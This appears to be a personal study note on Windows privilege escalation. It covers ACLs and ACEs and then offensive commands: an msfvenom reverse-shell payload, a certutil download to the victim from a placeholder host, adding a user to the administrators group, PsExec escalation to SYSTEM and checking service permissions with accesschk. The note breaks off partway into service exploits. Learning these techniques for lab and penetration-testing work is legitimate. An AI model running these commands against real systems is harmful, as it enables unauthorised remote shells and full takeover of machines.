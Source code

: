 ## Resources
There are different types of resources/objects.
- Files/Directories
- Registry entries
- Services

## ACLs & ACEs
permissions to access certain resource in windows is controlled by the access control list (ACL) for the resource. 

Each ACL is made up of zero or more access control entries (ACEs)

Each **ACEs** defines  the relationship between a principal (i.e a user, group) and certain access right
![](https://i.imgur.com/WKjvSXE.png)


# Gen rev shell
Payload:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
Download in victim:
`certutil -urlcache http://xxx/file file`

Run in victim:
`file`
## RDP
If we have access to RDP or we can enable it , we cann add our low privileged user to the administrators group and then spawn an admin commannd prompt via GUI 
`net localgroup administrators <username> /add`

## Admin -> SYSTEM
PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials. It’s a bit like a [remote access program](https://www.lifewire.com/free-remote-access-software-tools-2625161) but instead of controlling the computer with a mouse, [commands](https://www.lifewire.com/what-is-a-command-2625828) are sent via [Command Prompt](https://www.lifewire.com/command-prompt-2625840).

We can use PsExec64 tool to do that from windows sysinternals 
`PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe`

If we have valid credentials of system then we can do psexec64.py to get into system
`psexec64.py user:password@target-IP`

# Service Exploits
## Insecure Service Permissions
Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
command:
`accesschk.exe /accepteula -uwcqv user daclsvc`
*daclsv is a service manager in windows of DACL, or Discretionary Access Control List, is an internal list attached to an object in Active Directory that specifies which users and groups can access the object and what kinds of operations they can perform.*
so here we have the permission to change the config (SERVICE_CHANGE_CONFIG)
